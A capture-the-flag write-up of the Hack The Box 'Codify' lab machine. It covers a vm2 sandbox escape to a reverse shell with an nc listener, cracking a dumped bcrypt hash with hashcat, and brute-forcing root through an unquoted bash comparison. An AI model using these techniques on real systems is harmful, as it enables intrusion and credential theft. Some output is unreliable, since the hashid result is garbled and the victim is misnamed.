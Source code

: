 ```yaml
---
title: Hack the box Codify pwned!
date: 2024-02-24 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, machine, codify, vm2 library, sqlite, posix variable quotes]
img_path: /assets/img/posts/
---
```


## Machine info

![Codify](htb-codify-info.png)
*Codify info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.96
>
>Target machine (victim, Devvortex): 10.10.11.239
{: .prompt-info}

## Enumeration

If we list the open ports in the machine, we can see that there are two open ports: 22 (ssh) and 80 (http):

`nmap -Pn -n -sS -p- -T5 --min-rate 5000 -oN nmap_initial.txt 10.10.11.239`

```
22/tcp open  ssh
80/tcp open  http
```

## Footprinting

If we look for more information about the services running in those ports we will find the machine address:

`map -Pn -n -sVC -p22,80 10.10.11.239`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add the machine address to our `/etc/hosts`:

`echo "10.10.11.239 codify.htb" | sudo tee -a /etc/hosts`

### Codify web

We browse to `http://codify.htb` to take a look at the web:

#### Codify

![Codify](htb-codify-web-codify.png)
*Codify*

#### About us

![Codify about us](htb-codify-web-about-us.png)
*Codify about us*

Here, we can see that the editor is using the [vm2 library](https://github.com/patriksimek/vm2).

#### Limitations

![Codify limitations](htb-codify-web-limitations.png)
*Codify limitations*

#### Editor

![Codify editor](htb-codify-web-editor.png)
*Codify editor*

## Foothold

As the editor is using the [vm2 library](https://github.com/patriksimek/vm2), and this project is discontinued due security issues, we let's take advantage of a [sandbox escape PoC in vm2](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) to inject a reverse shell in the editor.
We lisen in our host:

```
nc -lvnp 1234
``` 

And, we inject the reverse shell in the editor:

![Codify editor reverse shell](htb-codify-web-editor-reverse-shell.png)
*Codify editor reverse shell*

### svc

Now, we get shell as the user `svc`.

```
svc@codify:~$ whoami 
svc
svc@codify:~$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```

After taking a look at the system files, in `/var/www/contact` we can find the sqlite3 database `tickets.db`.
Inside we will find the hashed password for the user `joshua`:

`sqlite3 tickets.db`

```
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We analyze the hash to see what type it is:

```
hashid $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2  
Analyzing 'a/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
[+] Cisco Type ba4c0cfe23b95aef6f5df7d0c88d6ce
```

We put the hash in the `hash.txt`file:

`echo "$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2" > hash.txt`

And, we crack the hash using `hashcat`:

```
hashcat -a 0 -m 3200 hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

### joshua

Now, we have a new user and paswsword, and since seems useless on the web, we will try to connect by `ssh`:

`ssh joshua@10.10.11.239`

And we are in!

```
joshua@codify:~$ id 
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

We can get our user flag:

`joshua@codify:~$ cat user.txt`

After taking our flag, we need to escalate privileges, so let's take a look to see what we can do as `joshua`:

```
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

We can execute the `/opt/scripts/mysql-backup.sh` script as root, so let's take a look at the source code:

```bash
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh 
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

Ok, we can see that the programmer forgot to quote the variables in the passwords comparision:

```bash
if [[ $DB_PASS == $USER_PASS ]]
```

So, we can exploit this in order to get the root password.
If you want to know more about the implications of forgetting to quote a variable in bash comparisons you can take a look at this **GREAT** post in [stackexchange](https://stackexchange.com/):
[security implications of forgetting to quote a variable in bash posix shells](https://unix.stackexchange.com/questions/171346/security-implications-of-forgetting-to-quote-a-variable-in-bash-posix-shells)

To bruteforce the root password I did a python script that you can see here: [bruceforcer.py](https://github.com/rubenhortas/hackthebox/blob/main/codify/bruteforcer.py)

After a while we will have our root password and we can get the system flag:

`su`

`root@codify:~# cat /root/root.txt`

## Pwned!

![Codify](htb-codify-pwned.png)
*Codify has been Pwned*

*Enjoy! ;)*
